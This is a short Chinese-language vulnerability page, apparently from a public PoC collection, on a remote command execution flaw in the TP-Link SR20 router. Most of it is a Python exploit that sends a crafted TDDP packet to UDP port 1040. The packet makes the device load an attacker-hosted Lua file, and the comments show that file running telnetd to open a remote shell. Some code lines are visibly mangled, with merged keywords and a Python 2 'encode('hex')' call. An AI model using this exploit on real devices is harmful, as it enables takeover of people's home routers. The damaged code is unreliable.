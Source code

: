# TP-Link SR20 远程命令执行

## 漏洞描述

据外媒报道，著名安全专家、Google 安全工程师Matthew Garrett公开了TP-LINK SR20智能家居路由器一个“允许来自本地网络连接的任意命令执行”的漏洞。攻击者可通过该漏洞控制用户路由器，借此执行任意命令，危及用户隐私安全。

## 漏洞影响

```
TP-Link SR20
```

## 漏洞POC

```python
#!/usr/bin/python3
# Create /testfile in your tftp root directory with the followingcontents:
#function config_test(config)
# os.execute("telnetd -l/bin/login.sh")
#end
# Replace 192.168.0.1 with the IP address of the vulnerable device
importbinascii
importsocket
port_send = 1040
port_receive = 61000
tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X"% 00
tddp_packet = "".join([tddp_ver, tddp_command, tddp_req,tddp_reply, tddp_padding])
sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(( '', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
packet = packet + b"/testfile;arbitrary"
print(packet)
sock_send.sendto(packet, ( "192.168.0.1", port_send))
sock_send.close()
response, addr = sock_receive.recvfrom( 1024)
r = response.encode( 'hex')
print(r)
```